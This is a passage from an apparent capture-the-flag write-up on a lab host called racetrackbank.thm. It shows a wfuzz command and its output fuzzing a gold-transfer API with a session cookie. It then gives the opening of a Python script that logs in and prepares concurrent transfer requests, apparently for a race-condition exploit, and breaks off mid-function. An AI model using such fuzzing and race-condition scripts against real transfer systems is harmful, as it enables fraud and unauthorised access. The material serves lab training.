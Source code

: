 `wfuzz -c -w wordlist_number.txt -u http://racetrackbank.thm/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3ABfmoqa8Zxf9PfHBp3WFx_9j4o_OAuj9J.yjtwtJprZOn87z2Fj%2BJ5n0FzjFosDCdjom6W7EwKEpg" -b "user=overthenet&amount=FUZZ" -v -X POST`

```bash
000000007:   0.670s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000003:   0.674s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000031:   0.673s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
000000041:   0.675s       302        0 L        4 W      85 Ch       nginx/1.14.0 (Ubuntu)            /giving.html?error=There%20is%   "
                                                                                                      20no%20user%20with%20that%20na   1
                                                                                                      me.                              "
[REDACTED] - MORE
```

`nano racescript.py`

```bash
import grequests
import requests
from bs4 import BeautifulSoup

ip_address = "racetrackbank.thm"

user_main = "otheruser"
pass_main = "otheruser"
user_add = "overthenet"
pass_add = "overthenet"

def user_gold_and_cookie(username, password):
    payload = {
        'username': username,
        'password': password
    }
    with requests.Session() as session:
        response = session.post(f'http://{ip_address}/api/login', data=payload)
        soup = BeautifulSoup(response.text, "html.parser")
        gold_amount = 0
        for tag in soup.find_all('a'):
            if "Gold:" in tag.text:
                gold_amount = int(tag.text.split(":", 1)[1].strip())
                print(f"Current Gold Amount for User {username}: {gold_amount}")
        cookie_dict = session.cookies.get_dict()
        return cookie_dict['connect.sid'], gold_amount

def send_gold(user, cookie, amount):
    print(f"Sending {amount} gold to user {user}")
    url = f'http://{ip_address}/api/givegold'
```